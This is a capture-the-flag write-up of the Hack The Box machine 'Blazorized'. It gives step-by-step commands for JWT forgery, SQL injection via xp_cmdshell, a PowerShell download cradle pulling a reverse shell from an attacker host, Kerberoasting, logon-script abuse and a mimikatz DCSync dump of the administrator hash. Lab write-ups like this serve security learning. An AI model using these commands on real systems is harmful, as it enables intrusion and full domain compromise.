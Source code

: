 # Blazorized Machine Writeup

At the moment of making this write up this box is my favorite, that is why I am choosing to make it my first write up. Any tips or critiques will be of most delight

Starting the box with an ip of 10.10.11.22

First step, nmap 

![nmap](https://github.com/user-attachments/assets/d062b7f2-b6ae-46b7-887c-62eaeb930468)

We see port 80 is open and redirecting to blazorized.htb

Adding that to our /etc/hosts we can access the page

![site](https://github.com/user-attachments/assets/83cd1caa-56d2-4595-9fc5-4ac2a186a939)


At first nothing interesting, only at the bottom we find the site was made with blazor. This implies the existence of dll files that can be decompiled. 

But first let's run a ffuf for subdomains


![image](https://github.com/user-attachments/assets/31ca6252-cbac-48fc-95c7-0e88e4244b4c)


We get a hit on admin.blazorized.htb, adding it to /etc/hosts we find a login page

Now it's a good idea to take a look at the dll files and what info they can give, so to access the admin panel and continue from there

Taking a look at the files that begin with Blazorized we see an interesting file only generated in the check_update endpoint

![image](https://github.com/user-attachments/assets/1a934bab-7625-4e43-af23-4acc724717ae)

Dowloading it with

```
curl http://blazorized.htb/Blazorized.Helpers.dll -o Blazorized.Helpers.dll
```

Next step is to decompile it

## If you want to learn some more watch the following video

[https://www.youtube.com/watch?v=Xx1eMlscXrQ&t=536](https://www.youtube.com/watch?v=Xx1eMlscXrQ)

### Continuing the Write up

To send it over to my windows box I did

```
sudo impacket-smbserver -smb2support share $(pwd)
```

and the hit my kali local ip with Win+R, after that you can open powershell and run ildasm

On the decompiled dll file we can find this:

![decompiled](https://github.com/user-attachments/assets/7a3948ee-cd9e-4a75-a11f-cf233c0a9d95)


With this information we can create a jwt and use it to log in the admin panel.

I left the python script I used in this repo name generate_token.py

Adding it to the browser local storage and refreshing the admin page will get you in

On the admin page the check duplicate page suffers from sql injection 

![sqlinjection](https://github.com/user-attachments/assets/ed84284f-ef61-4bb0-92ca-ab02a57b08dc)

Using this we can get a shell

I used nishang's Invoke-PowershellTcpOneline.ps1 and did a web cradle with

```
IEX(New-Object Net.WebClient).downloadString('http://<your_ip>:8000/shell.ps1')
```
I then encoded the cradle in base64 with 

```
cat cradle | iconv -t utf-16le | base64 -w0
```

And sent the following on the admin panel

```
Foxer'; EXEC xp_cmdshell 'powershell -enc <base63_cradle>'; -- -
```

This gets us a shell as nu_1055
![first_shell](https://github.com/user-attachments/assets/462b5a12-177d-4f29-87b5-90106c5e16d2)


This user already has the user flag

![user_flag](https://github.com/user-attachments/assets/60ebf0af-8869-40a2-921a-47a2b92b3894)


## Shell as nu_1055

First let's run Sharphound and get some data 
After running sharphound stand a smbserver and grab the zip file
Taking a look at nu_1055 we see he has WriteSPN permissions on rsa_4810


![bloodhound1](https://github.com/user-attachments/assets/ce2c378f-add4-47a1-808c-62cf5d15ba89)

We'll need to add PowerView to the box with
```
IEX(New-Object Net.WebClient).downloadString('http://<your_ip>:8000/PowerView.ps1')
```

Using bloodhound's suggested windows abuse, we can do the following commands

```
Set-DomainObject -Identity rsa_4810 -SET @{serviceprincipalname='foxer/writeup'}
Invoke-Kerberoast
```

![rsa_4810_hash](https://github.com/user-attachments/assets/057cc587-4543-4dd1-b223-c70b884f87d0)

And as you can see we get a hash

Cracking it we get rsa_4810s password and we can winrm with it

![rsa_4810_pass](https://github.com/user-attachments/assets/8a2d1bd0-a26d-4447-9d61-5bc6e7812933)

## Shell as rsa_4810

After accessing the user it get's a bit harder since bloodhound doesn't really give us any direct ideas, however looking at the Users directorie we see there's only user ssa_6010 remaining, apart from Administratr

However we can do the following
```
Find-InterestingDomainAcl | ConvertTo-Json
```
Looking for SSA_6010 we can see that rsa_4810 can change the script path for user ssa_6010

![script_path](https://github.com/user-attachments/assets/9e229c76-6a6e-4110-8f47-ffaf643f9ddc)

So we can change a script path, now we need only figure out what directory we can write to

Using accesschk64 we find out it's
```
Windows\SYSVOL\domain\scripts\A32FF3AEAA23
```
Let's make a file that catches our cradle, so do 
```
echo "powershell - enc <base64_cradle>" | Out-File -Filepath fox.bat -Encoding ASCII
Set-ADUser -Identity SSA_6010 -ScriptPath 'A32FF3AEAA23\fox.bat'
```
Open a listener and a web server to cat the shell.ps1 file and we get a shell as ssa_6010


![ssa_6010_shell](https://github.com/user-attachments/assets/bcc46b27-db42-4831-be1e-e5b7e4f9701e)
## Shell as ssa_6010
Finally, looking at bloodhound we see ssa_6010 can perform a DCSynv attack on the domain

We can do this with mimikatz and get the Administrator hash

```
.\mimikatz.exe "lsadump::dcsync /domain:blazorized.htb /user:administrator" exit
```

![admin_hash](https://github.com/user-attachments/assets/bb8a4b2c-ae33-428e-a932-5148cb2bcb62)

f55ed1465179ba374ec1cad05b34a5f3 is the admins hash

Using winrm we cat get root.txt

### Thanks to ippsecs video on the box
